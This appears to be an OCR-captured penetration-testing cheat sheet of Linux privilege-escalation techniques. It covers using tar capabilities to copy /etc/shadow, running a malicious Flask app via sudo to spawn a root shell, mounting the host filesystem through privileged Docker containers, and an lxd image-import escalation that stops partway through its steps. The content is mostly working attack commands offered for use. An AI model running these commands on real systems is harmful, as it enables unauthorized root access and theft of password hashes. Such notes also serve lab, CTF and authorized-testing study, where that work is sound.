 ## Capabilities Tar

```bash
getcap -r / 2>/dev/null         
/usr/bin/tar = cap dac read search+ep
/usr/bin/tar -cvf shadow.tar /etc/shadow
/usr/bin/tar -xvf shadow.tar
cat etc/shadow
```

## Flask run privesc

1. Create malicious app.py
2. set env variable to /tmp/app.py
3. run

```py
cat app.py 
import os

os.system("/bin/bash")
```

export FLASK_APP=/tmp/app.py

sudo -u root /usr/bin/flask run

## Docker privesc

https://www.hackingarticles.in/docker-privilege-escalation/

docker images 

docker run --rm -it --privileged alpine bash

docker run -v /:/mnt --rm -it alpine chroot /mnt sh


# lxd privesc

https://www.exploit-db.com/exploits/46978

* Download build-alpine in your local machine through the git repository.
* Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
* Transfer the tar file to the host machine

* Download the alpine image
* Import image for lxd
* Initialize the image inside a new container.
* Mount the container inside the /root directory


git clone https://github.com/saghul/lxd-alpine-builder.git

build the alpine as root 
